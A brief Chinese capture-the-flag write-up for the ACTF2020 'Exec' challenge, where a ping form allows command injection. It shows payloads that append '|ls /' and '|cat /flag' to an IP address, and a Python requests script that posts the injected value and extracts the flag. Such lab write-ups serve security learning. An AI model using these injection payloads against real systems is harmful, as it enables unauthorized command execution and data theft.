


# 分析

来自[[ACTF2020 新生赛]Exec](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Exec)

是一个ping功能，试试有没有命令执行，payload=`1270.0.0.1|ls /`



payload=`127.0.0.1|cat /flag`



# exp

```python
import requests
import re

url = "http://af0baab7-eaf0-4993-9df1-785e785d2f35.node5.buuoj.cn:81/"
data={
  'target':'127.0.0.1|cat /flag'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

